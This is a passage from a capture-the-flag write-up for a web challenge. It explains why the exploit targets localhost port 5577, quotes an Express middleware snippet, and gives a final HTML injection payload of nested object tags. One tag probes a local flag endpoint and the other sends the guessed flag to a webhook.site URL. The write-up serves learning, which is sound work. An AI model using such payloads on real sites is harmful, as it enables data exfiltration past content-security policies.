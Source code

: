 That means that u still need to bypass 403 but through the injection point, not the security header.

As for the why use environment port not remote port, the `getSanitizeOptions()` function is within the `sanitizeMdleware.js` file, in which if you check the `app.js` file, there’s actually a part where it  mentions that the middleware runs on port 5577.

```js
// ---------- MIDDLEWARES ----------
const app = express();
const PORT = process.env.PORT || 5577;
const imagePath = './images';

const csp = "connect-src 'self'; form-action 'self';";

app.use((req, res, next) => {
    res.setHeader('Content-Security-Policy', csp);
    res.setHeader('X-Content-Type-Options', 'nosniff');
    next();
});
```

So instead of allowing the code to automatically run through the remote address and port, you need to specify the `local IP` and `environment port`.

Final payload:

```js
<object data="http://127.0.0.1:5577/oshaoshaflagfinder?flag=SHCTF24{">
    <object data="https://webhook.site/your_webhook_here?flag=SHCTF24{"></object>
</object>
```

So yea….there’s another 4 hours….

Back to the challenge, how do you know the characters of the flag? 

![Challenge description](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/SherpaCTF/image%209.png?raw=true)

This part of the challenge description is important.

So you visit the folder, and you can see the `name.png` is all part of the characters possible for the flag.
